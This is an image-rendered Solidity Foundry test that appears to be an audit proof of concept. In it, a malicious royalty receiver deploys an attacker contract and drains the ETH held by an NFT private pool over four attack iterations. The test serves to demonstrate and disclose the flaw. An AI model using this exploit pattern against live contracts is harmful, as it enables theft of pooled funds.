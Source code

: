 ```solidity
        assertEq(
            nft.ownerOf(tokenId),
            address(privatePool),
            "Setup: the NFT should initially be deposited to the private pool."
        );

        assertEq(
            privatePool.baseToken(),
            address(0),
            "Setup: the private pool base token should be ETH."
        );
        assertEq(
            address(privatePool).balance,
            VIRTUAL_BASE_TOKEN_RESERVES,
            "Setup: incorrect initial amount of ETH supplied to pool."
        );

        // Log initial state (before attack).
        _logState(" Before the exploit");
    }

    function test_MaliciousRoyaltyReceiverDrainPrivatePool() external {
        // 0. Execute the following steps from the royalty receiver (the attacker) account.
        vm.startPrank(receiver);

        // 1. Deploy the attacker contract that contains the main exploit logic.
        AttackerContract maliciousReceiverContract = new AttackerContract(
            payable(privatePool),
            address(nft),
            tokenId
        );

        assertEq(maliciousReceiverContract.owner(), receiver);

        // 2. Change the royalty receiver for NFT#tokenId to the attacker contract.
        nft.setTokenRoyalty(tokenId, address(maliciousReceiverContract), 10);

        (address newRoyaltyReceiver, ) = nft.royaltyInfo(tokenId, 10_000);
        assertEq(newRoyaltyReceiver, address(maliciousReceiverContract));

        // 3. Execute the attack.
        maliciousReceiverContract.attack{value: 100 ether}(
            4, // 4 iterations are needed to drain the whole private ETH balance having the current setup.
            new uint256[](1), // This will pass the following array as tokenIds - [0].
            new uint256[](0),
            PrivatePool.MerkleMultiProof(new bytes32[](0), new bool[](0))
        );

        // Log state after pool was drained.
        _logState(" After the exploit");
    }

    // ======================================= Helpers ======================================= //

    /**
     * @notice Deploy and initialize an instance of the vulnerable private pool implementation.
     */
    function _deployPrivatePool() internal {
        // Deploy pool implementation.
        privatePool = new PrivatePool(
            address(factory),
            address(royaltyRegistry),
```